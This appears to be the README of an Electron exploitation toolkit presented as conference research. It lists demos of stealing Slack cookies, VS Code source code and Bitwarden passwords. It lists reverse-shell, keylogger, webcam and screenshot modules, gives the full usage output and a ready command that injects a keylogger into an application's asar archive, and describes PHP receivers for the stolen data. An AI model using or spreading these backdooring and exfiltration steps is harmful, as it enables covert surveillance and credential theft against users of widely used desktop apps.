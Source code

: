 # BEEMKA

## Electron Exploitation Toolkit

### BSidesLV Slack Cookie Egress Demo

[![Slack Cookie Egress](http://img.youtube.com/vi/hRX7kT2r7LA/0.jpg)](https://www.youtube.com/watch?v=hRX7kT2r7LA)

### BSidesLV VSCode Source Code Egress Demo

[![VSCode Source Code Egress](http://img.youtube.com/vi/pKWX3nelszQ/0.jpg)](https://www.youtube.com/watch?v=pKWX3nelszQ)

### Demo Videos (YouTube)

#### Bitwarden Password Egress

[![Bitwarden Password Egress](http://img.youtube.com/vi/qDTKYNGsyuI/0.jpg)](https://www.youtube.com/watch?v=qDTKYNGsyuI)

### Skype Reverse Shell (Linux)

[![Skype Reverse Shell](http://img.youtube.com/vi/FLA93oG5gZE/0.jpg)](https://www.youtube.com/watch?v=FLA93oG5gZE)

### Slack Desktop Screenshots

[![Slack Desktop Screenshots](http://img.youtube.com/vi/H-phownVcN4/0.jpg)](https://www.youtube.com/watch?v=H-phownVcN4)

### VS Code WebCamera

[![Slack Desktop Screenshots](http://img.youtube.com/vi/xvWXlUswAfo/0.jpg)](https://www.youtube.com/watch?v=xvWXlUswAfo)

### Requirements

- Python 3.5+
- jsmin

### Installation

```
pip3 install -r requirements.txt
```

### Modules

```
python3 beemka.py --list

Available modules

[ rshell_cmd ]          Windows Reverse Shell
[ rshell_linux ]        Linux Reverse Shell
[ screenshot ]          Screenshot Module
[ rshell_powershell ]   PowerShell Reverse Shell
[ keylogger ]           Keylogger Module
[ webcamera ]           WebCamera Module
```

Features:

```
usage: Beemka Electron Exploitation [-h] [-v] [-l] [-i] [-f ASAR_FILE]
                                    [-p ASAR_WORKING_PATH] [-o OUTPUT_FILE]
                                    [-m MODULE] [-u] [-z]

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -l, --list-modules    List all available modules.
  -i, --inject          Inject code into Electron.
  -f ASAR_FILE, --asar ASAR_FILE
                        Path to electron.asar file.
  -p ASAR_WORKING_PATH, --asar-working-path ASAR_WORKING_PATH
                        Temporary working path to use for extracting asar
                        archives.
  -o OUTPUT_FILE, --output OUTPUT_FILE
                        Path to the file that will be generated.
  -m MODULE, --module MODULE
                        Module to inject. Use --list-modules to list available
                        modules.
  -u, --unpack          Unpack asar file.
  -z, --pack            Pack asar file.
```

Injecting a module into an application:

```
python3 beemka.py --inject --module keylogger --asar "PATH_TO_ELECTRON.ASAR" --output "SAVE_AS_ASAR"
```

### Exfiltration helpers

Under the ./server directory there are the following files:

#### text.php
This file can be used to receive data sent by the keylogger module.

Before using it, make sure you update the "$storage" parameter at the beginning of the file.

#### image.php
This file can be used to receive data sent by the webcamera and screenshot modules.

Before using it, make sure you update the "$storage" parameter at the beginning of the file.

### Credits

[Leonardo Vieira](https://github.com/leovoel) for his asar.py class
